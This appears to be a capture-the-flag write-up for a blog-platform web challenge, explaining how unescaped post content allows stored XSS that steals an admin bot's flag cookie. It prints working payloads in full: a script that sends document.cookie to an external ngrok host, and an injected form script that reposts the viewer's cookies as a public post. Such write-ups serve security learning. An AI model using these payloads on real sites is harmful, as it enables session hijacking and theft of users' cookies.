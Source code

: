 # Blogpost

### Description

Jaga created an internal social media platform for the company. Can you leak anyone's information?

## Solution

### 1. Standard Setup

As usual, when testing an unknown web application where you can register for an account, register for one. Mainly to test what you can do

![](Images/2.png)
![](Images/3.png)
![](Images/4.png)

### 2. XSS


Since in the source code, theres a `bot.js` accessing `/blog` as the admin user with a cookie holding the value of the flag, its likely using XSS to extract the cookies from the admin user. This is a relatively common problem topic, that I've seen in PortSwigger Labs while i'm practicing. I have also seen it in some CTFs before, such as the SEETF.

```js
import puppeteer from 'puppeteer';
import {sign, verify} from './helpers/JWTHelper.js';

const browser_options = {
	headless: true,
	args: [
		'--no-sandbox',
		'--disable-background-networking',
		'--disable-default-apps',
		'--disable-extensions',
		'--disable-gpu',
		'--disable-sync',
		'--disable-translate',
		'--hide-scrollbars',
		'--metrics-recording-only',
		'--mute-audio',
		'--no-first-run',
		'--safebrowsing-disable-auto-update',
		'--js-flags=--noexpose_wasm,--jitless'
	]
};

export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```

I tried submitting a blog post with HTML content & scripting. It is templated in without any escaping, so there is an XSS vulnerability

```
<h1>this is content</h1>
<script>console.log("alpha");</script>
```


Cookies can be accessed by Javascript
<!--![[Web/Blogpost/Images/6.png]]-->
![](Images/6.png)

### 3. Extracting the Cookie

I tried extracting the cookie with this payload. But Content Security Policy blocked this code from running. 

```
<script> var i = new Image(); i.src = "https://e65e-128-106-225-50.ngrok.io?q="+document.cookie; </script>
```

However, I realised that I just need an output for the document cookie that everyone can see. A way to output data is through making a post. So I'll just create a new blog post.

I copied the code from the create post endpoint, made some modifications to send the document cookie, and submitted the payload when making a post

```js
<form action="/post" method="POST" class="post-form">
	<input type="text" name="title" placeholder="Title" value="Cookies">
	<textarea name="content" placeholder="Content" id="content"></textarea>
	<button type="button" class="form-submit create">Create</button>
</form>
<script>
function getFormData($form){
    var unindexed_array = $form.serializeArray();
    var indexed_array = {};

    $.map(unindexed_array, function(n, i){
        indexed_array[n['name']] = n['value'];
    });

    return indexed_array;
}


let code = function(e){
	document.getElementById("content").value = document.cookie;
    var formData = JSON.stringify(getFormData($(".post-form")));

    $.ajax({
        type: "POST",
        url: "/post",
        data: formData,
        dataType: "json",
        contentType : "application/json"
    }).done(function(response){
        if (response.message == "Success"){
            window.location.href = "/blog";
        }
        else {
            console.log(response.message);
        }
    });
}
code();
</script>
```



![](Images/5.png)

After submitting the payload, wait for the flag to show up

![](Images/7.png)

TLDR

1. Register account, login
2. Post contents
3. Wait for flag to show up

# Flag

`STF22{s1mpl3_p0st_xSs_:)}`

Top 5 to solve

<!--![[Web/Blogpost/Images/score.png]]-->
![](score.png)
